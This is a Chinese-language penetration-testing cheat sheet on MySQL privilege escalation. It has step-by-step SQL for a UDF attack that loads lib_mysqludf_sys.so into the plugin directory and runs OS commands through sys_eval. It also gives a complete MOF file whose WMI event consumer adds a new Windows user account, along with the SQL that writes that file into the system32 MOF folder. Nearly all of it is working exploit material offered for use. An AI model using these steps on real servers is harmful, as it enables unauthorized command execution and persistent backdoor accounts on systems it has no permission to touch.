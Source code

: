 
### MySQL 提权

#### UDF 提权，目录位置

> root
> func 表
> 5.x

1. show variables like '%plugin%';
2. plugin_dir: /usr/bin/mysql/plugin (need rw)
3. uname -a
4. select hex(load_file(‘/pentest/database/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so’)) into outfile ‘/tmp/udf.txt';
5. select unhex('7F454C46020...') into dumpfile '/usr/lib/mysql/plugin/mysqludf.so';
6. nm -D /usr/lib/mysql/plugin/mysqludf.so
7. create function sys_eval returns string soname "mysqludf.so";
8. select sys_eval('whoami');

#### mof 提权，需要写目录上传权限

```
#pragma namespace("\\\\.\\root\\subscription")

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user [username] [password] /add\")";
};

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};

```

```sql
select load_file('C:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof'
```

---